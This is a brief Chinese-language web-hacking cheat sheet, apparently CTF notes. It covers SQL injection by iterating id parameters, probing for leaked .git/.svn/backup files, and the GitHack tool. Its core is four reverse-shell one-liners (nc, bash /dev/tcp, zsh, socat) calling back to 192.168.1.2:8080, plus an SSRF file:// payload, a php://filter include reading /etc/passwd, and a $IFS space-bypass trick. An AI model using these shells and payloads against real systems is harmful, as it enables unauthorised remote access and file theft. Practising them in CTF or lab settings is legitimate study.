 ## 基础脑洞/思路
1. index.php?id=1  遍历id 注入
2. robots.txt .git .svn .swp ~ .bak 源码，目录泄露
  .git泄露利用EXP
  https://github.com/lijiejie/GitHack
## 反弹shell
```sh
nc -e /bin/bash 192.168.1.2 8080
bash -c 'bash -i >/dev/tcp/192.168.1.2/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.1.2 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.2:8080  
```
## ssrf常用payload
`admin=1&url=file://www.ichunqiu.com/var/www/html/flag.php`

## php7 直接崩溃bug
`include(‘php://filter/string.strip_tags/resource=/etc/passwd’)`
## $IFS
空格可以使用$IFS代替
